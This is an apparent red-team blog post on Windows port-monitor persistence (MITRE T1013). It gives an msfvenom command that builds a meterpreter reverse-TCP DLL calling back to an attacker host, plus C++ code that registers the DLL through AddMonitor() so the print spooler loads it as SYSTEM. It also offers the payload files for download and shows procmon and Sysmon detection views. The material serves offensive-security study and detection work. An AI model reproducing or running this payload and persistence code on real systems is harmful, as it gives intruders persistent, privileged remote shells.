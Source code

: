 ```yaml
---
layout: post
title: "2024-06-18-t1013 addmonitor"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1013-addmonitor/
---
```


---
description: 'Persistence, Privilege Escalation'
---

# AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}



@spotheplanet
